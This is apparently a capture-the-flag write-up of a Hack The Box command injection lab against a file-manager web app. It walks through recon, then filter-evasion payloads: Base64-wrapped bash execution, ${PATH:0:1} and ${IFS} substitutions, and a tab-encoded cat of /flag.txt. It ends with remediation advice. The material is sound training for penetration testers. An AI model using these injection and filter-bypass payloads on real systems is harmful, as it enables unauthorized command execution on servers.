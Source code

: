 This is a detailed write-up for the HTB Bug Bounty Hunter Certification’s skill assessments. This write-up series will treat each skill assessment as an individual penetration test, with a full explanation of a specific vulnerability, including remediation recommendations.
Command Injection Skill Assessment

Scenario:
You have been contracted to perform a penetration test for a company, and during your testing, you discover an interesting file manager web application. Since file managers often execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques discussed in this module to detect a command injection vulnerability and then exploit it, bypassing any filters that are in place.

Target in Scope:
94.237.xx.xxx
Recon and Analysis:

First, you want to interact with the application as a normal user to understand its functionality.

The file manager web application appears to be connected to the OS level, allowing us to view files hosted on the server.

(https://github.com/user-attachments/assets/4630e27c-bddb-4e8b-a93b-47fd5b1ac5a8)

When clicking the tmp folder, the parameter in the URL changes to to=tmp.

https://github.com/user-attachments/assets/59ef09be-f7b8-4d57-ae3a-62aecaf0b1a9

This also happens when visiting a .txt file, with the parameter appearing as to=&view=filename.txt.

https://github.com/user-attachments/assets/380f5e5b-af7d-4f72-b085-d875a704f593

Each file and folder has several functional action buttons, such as the "copy" button.

https://github.com/user-attachments/assets/7d2d989d-c1dc-40cd-80d5-59db260dfaf7

It seems this function allows users to copy files to other directories.

https://github.com/user-attachments/assets/daeecf1b-bf80-4078-a102-71ee641a2e89

The file can be moved using this URL:

http://94.237.49.166:46423/index.php?to=tmp&from=51459716.txt&finish=1&move=1

Once a file is moved, the action cannot be repeated on the same file.

https://github.com/user-attachments/assets/46c09bbc-c89c-4a1c-b950-2270bbf6c6a8

There is also an advanced search option available next to the regular search bar.

https://github.com/user-attachments/assets/80acbefa-01e8-416c-9453-33fc2085bfd4
https://github.com/user-attachments/assets/0983529a-c562-45ef-bbb9-6791d4f1230d
Attack Vector:

After testing the functional areas, we now want to target specific features and URL parameters to see if we can perform a command injection. One such area is the "move file" feature.

Below is the initial move of a file to a directory using the UI and HTTP request.

https://github.com/user-attachments/assets/94daae8f-ce9a-482b-9b92-6fbec09ea931
https://github.com/user-attachments/assets/2d8cddeb-4bb1-4720-a061-6bac9c63af17

Below is the repeated action for moving the same file.

https://github.com/user-attachments/assets/cb117f97-8f43-4e5c-9bf3-dc0b14d97c06
https://github.com/user-attachments/assets/3c20054b-0170-4ff5-a154-528f5eb36ddf

We want to check if the URL parameter is vulnerable to command injection.
Command Injection Techniques:

To inject additional commands into the existing one, we can use the following operators:

https://github.com/user-attachments/assets/8e5a7ced-3d20-453b-9c21-9175d2e7fe26

I tried injecting commands like whoami and ls into the "to" parameter. The error message displayed: "malicious request denied".

https://github.com/user-attachments/assets/1e147d29-cfdb-400e-9811-e61a98f5b7f0
https://github.com/user-attachments/assets/82451731-5b66-4185-b145-1d53d404ac7b

This indicates that basic commands are filtered. Therefore, we need to identify possible filters such as space, blacklisted characters, commands, or WAF filters.

To bypass this, I used command obfuscation with Base64 encoding.

bash<<<$(base64 -d<<<"base64 encoded OS payload")

https://github.com/user-attachments/assets/22448c0a-411a-44c7-8ff2-b9fac3dff2e9
https://github.com/user-attachments/assets/5b6d0267-d673-4229-b934-97ceb20e6007

We successfully executed whoami and obtained the result: www-data. Next, I tested ls -la to list the files.

https://github.com/user-attachments/assets/560881b1-453e-4746-b474-31e947411f67
https://github.com/user-attachments/assets/77d9db20-2325-4098-b28f-4ccd5ff13029
Exploit:

Now that we’ve identified the attack vector by bypassing the filter, we can perform an exploit.

I attempted to view the root directory.

https://github.com/user-attachments/assets/e4370eb5-7f18-490b-a649-145ab6d6e897
https://github.com/user-attachments/assets/cb53bf44-1a46-4127-b883-8a35560f28a5

There are several files, including config.php and index.php. Let’s explore further.

https://github.com/user-attachments/assets/5a87aea9-8c07-4c70-9c76-66608aca0ff1
https://github.com/user-attachments/assets/5bc27cde-d090-4c03-a593-a8dddc535e2d
https://github.com/user-attachments/assets/b144ef9c-9cfb-4b82-b26f-096e92090e35

I couldn’t find the target file, flag.txt, but I moved it to the tmp directory.

${PATH:0:1} = /

${IFS} = space

mv/flag.txt /var/www/html/files/tmp

mv ${PATH:0:1}flag.txt ${PATH:0:1}var${PATH:0:1}www${PATH:0:1}html${PATH:0:1}files${PATH:0:1}tmp

Base64 encoded:

bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w

bash<<<$(base64%09-d<<<bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w)

https://github.com/user-attachments/assets/ae2ed837-0694-4b6f-8d3e-c9d75efe5024

While the file was moved, I didn’t have permission to read it. However, I now know the location of the flag.txt file.

To bypass character filters, I used this payload:

%26c\a\t%09${PATH:0:1}flag.txt

&cat (horizontal tab) /flag.txt

https://github.com/user-attachments/assets/75d45b6a-43a2-4fba-b380-b1e4c7b0ae99
Consequences:

A command injection vulnerability is one of the most severe types. It allows an attacker to execute OS-level commands on the server, potentially compromising the entire network. When a web application uses user input to execute a system command, an attacker can inject malicious commands and take control of the system.
Remediation:

To prevent command injection vulnerabilities, consider the following measures:

    Avoid using system commands in web applications.
    Implement strict input validation and sanitization.
    Configure the web server properly to minimize the risk of such attacks.
